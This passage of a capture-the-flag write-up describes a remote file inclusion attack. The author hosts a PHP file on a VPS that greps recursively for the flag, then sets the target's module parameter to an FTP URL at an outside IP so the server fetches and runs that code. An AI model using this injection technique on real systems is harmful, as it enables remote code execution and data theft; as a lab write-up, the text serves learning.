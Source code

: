 I changed the ip to my vps ip and the evil\_file to a grep.PHP. Next I
proceeded to write the grep.PHP

![](./media/image45.png)

Simple just executing a recursive grep after â€˜flag{â€˜ which I knew was
the start of the flag.

I started the server on my VPS and then passed
module=ftp://188.166.72.43/hooya or anything for that matter.

![](./media/image46.png)

![](./media/image47.png)

There was a lot of garbage there but in the end there was the flag.
